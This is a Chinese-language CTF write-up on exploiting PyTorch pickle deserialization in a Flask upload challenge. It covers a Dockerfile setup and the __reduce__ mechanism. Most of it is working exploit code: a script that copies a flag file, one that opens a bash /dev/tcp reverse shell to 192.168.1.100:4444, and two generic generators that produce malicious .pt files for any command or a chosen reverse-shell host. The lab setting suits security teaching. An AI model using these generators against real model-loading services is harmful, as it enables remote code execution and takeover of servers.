Persuade_ML_CTF_Challenge 是一个利用 PyTorch Pickle 反序列化漏洞的 CTF 挑战。当用户上传恶意的 .pt 文件到平台时，服务端在加载模型时触发 pickle.loads()，导致任意代码执行。
搭建环境
使用以下 Dockerfile 构建镜像（已替换为阿里云镜像加速）：
FROM python:3.8-slim
WORKDIR /app
RUN apt-get update && apt-get install -y --no-install-recommends ca-certificates && \
rm -rf /var/lib/apt/lists/*
COPY requirements.txt .
RUN pip install --no-cache-dir --trusted-host mirrors.aliyun.com \
-i http://mirrors.aliyun.com/pypi/simple/ -r requirements.txt
COPY app.py /app/
COPY templates/ /app/templates/
ENV FLASK_APP=app.py
EXPOSE 5000
ENTRYPOINT ["python", "app.py"]
CMD ["--host", "0.0.0.0"]docker build -t persuade_ml_ctf_challenge . && docker run -d -p 5000:5000 --name persuade_ml_ctf_challenge persuade_ml_ctf_challenge
容器运行后，需要手动创建 uploads 目录：
docker exec persuade_ml_ctf_challenge mkdir -p /app/uploads
PyTorch Pickle 反序列化漏洞原理
PyTorch 的 torch.load() 底层使用 Python 的 pickle.loads() 进行反序列化。如果加载不可信的 .pt / .pth 文件，攻击者可以在 pickle 数据流中嵌入任意 Python 代码，在反序列化时自动执行。
Python 的 pickle 序列化不是单纯的数据序列化，它允许通过 __reduce__ 方法指定反序列化时调用的函数和参数。攻击者可以构造一个包含恶意 __reduce__ 的类，当 pickle.loads() 执行时就会触发目标函数。

生成 exploit.pt 读取 flag
以下脚本生成一个恶意 .pt 文件，在服务端加载时会读取 /app/flag.txt 并写入到 /app/uploads/output.txt：
import pickle
import torch
class Exploit(object):
def __reduce__(self):
import os
cmd = "cp /app/flag.txt /app/uploads/output.txt"
return (os.system, (cmd,))
payload = pickle.dumps(Exploit())
with open("exploit.pt", "wb") as f:
f.write(payload)python gen_exploit.py
将 exploit.pt 通过平台的上传功能提交：


生成 shell_exploit.pt 反弹 shell
除了读取文件，还可以生成反弹 shell 的恶意 .pt 文件：
import pickle
import torch
class Exploit(object):
def __reduce__(self):
import os
cmd = "bash -c 'exec bash -i &>/dev/tcp/192.168.1.100/4444 <&1'"
return (os.system, (cmd,))
payload = pickle.dumps(Exploit())
with open("shell_exploit.pt", "wb") as f:
f.write(payload)
malicious_pt_generator.py 工具
这是一个更完善的恶意 .pt 生成工具，支持自定义命令：
import argparse
import pickle
import os
class MaliciousPayload(object):
def __reduce__(self):
return (os.system, (self.cmd,))
def generate_pt(cmd, output):
MaliciousPayload.cmd = cmd
payload = pickle.dumps(MaliciousPayload())
with open(output, "wb") as f:
f.write(payload)
print(f"[+] Generated {output} with command: {cmd}")
if __name__ == "__main__":
parser = argparse.ArgumentParser(description="malicious .pt generator")
parser.add_argument("-c", "--cmd", required=True, help="command to execute")
parser.add_argument("-o", "--output", default="exploit.pt", help="output filename")
args = parser.parse_args()
generate_pt(args.cmd, args.output)python malicious_pt_generator.py -c "cat /app/flag.txt > /app/uploads/flag.txt" -o myexploit.pt

reverse_shell_generator.py 工具
专门用于生成反弹 shell 的 .pt 文件生成器，支持指定 IP 和端口：
import argparse
import pickle
import os
class ReverseShell(object):
def __reduce__(self):
return (os.system, (self.cmd,))
def generate_shell(ip, port, output):
ReverseShell.cmd = f"bash -c 'exec bash -i &>/dev/tcp/{ip}/{port} <&1'"
payload = pickle.dumps(ReverseShell())
with open(output, "wb") as f:
f.write(payload)
print(f"[+] Generated reverse shell .pt: {output}")
print(f"[+] Connect to {ip}:{port} to receive shell")
if __name__ == "__main__":
parser = argparse.ArgumentParser(description="reverse shell .pt generator")
parser.add_argument("--ip", required=True, help="LHOST")
parser.add_argument("--port", required=True, help="LPORT")
parser.add_argument("-o", "--output", default="shell_exploit.pt")
args = parser.parse_args()
generate_shell(args.ip, args.port, args.output)python reverse_shell_generator.py --ip 192.168.1.100 --port 4444 -o shell.pt


